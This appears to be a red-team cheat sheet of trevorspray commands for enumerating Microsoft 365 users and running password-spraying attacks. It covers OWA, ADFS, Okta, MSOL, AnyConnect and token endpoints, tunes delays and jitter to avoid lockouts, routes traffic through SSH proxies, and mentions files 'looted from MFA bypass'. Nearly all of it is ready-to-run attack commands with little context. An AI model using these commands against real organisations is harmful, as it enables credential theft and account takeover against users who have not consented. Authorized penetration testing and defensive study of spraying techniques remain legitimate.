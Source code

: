 
### Enumerate users via OneDrive (no failed logins) or Seamless_sso
```bash
trevorspray --recon $tenant -u emails.txt --threads 10


# --delay         Sleep for this many seconds between requests
# --lockout-delay Sleep for this many additional seconds when a lockout is encountered
# --jitter        Add a random delay of up to this many seconds between requests
```

```bash
trevorspray -u emails.txt -p $password --ssh root@1.2.3.4 root@4.3.2.1 --delay 30 --lockout-delay 30 --jitter 10
```


### Workflow - Spray Token Endpoint Slow
### Recon for URL
```bash
trevorspray --recon $tenant
url=""
trevorspray -u emails.txt -p $password --url $url --delay 60 --lockout-delay 60 --jitter 30
```

### Workflow - Default Endpoint Spray Slow
```bash
trevorspray -u emails.txt -p $password --delay 60 --lockout-delay 60 --jitter 30
```

### Spray Modules
```bash
trevorspray owa -u emails.txt -p $password --delay 60 --lockout-delay 60 --jitter 30
trevorspray adfs -u emails.txt -p $password --delay 60 --lockout-delay 60 --jitter 30
trevorspray okta -u emails.txt -p $password --delay 60 --lockout-delay 60 --jitter 30
trevorspray msol -u emails.txt -p $password --delay 60 --lockout-delay 60 --jitter 30
trevorspray anyconnect -u emails.txt -p $password --delay 60 --lockout-delay 60 --jitter 30
```

### Spray Across Proxies
```bash
proxy1=""
proxy2=""
trevorspray -u emails.txt -p $password --ssh mellonaut@$proxy2 ansible@$proxy1
```

### Trevor Spray Extract LZX files looted from MFA bypass
### get libmspack (for extracting LZX file)
```bash
git clone https://github.com/kyz/libmspack
cd libmspack/libmspack/
./rebuild.sh
./configure
make
```
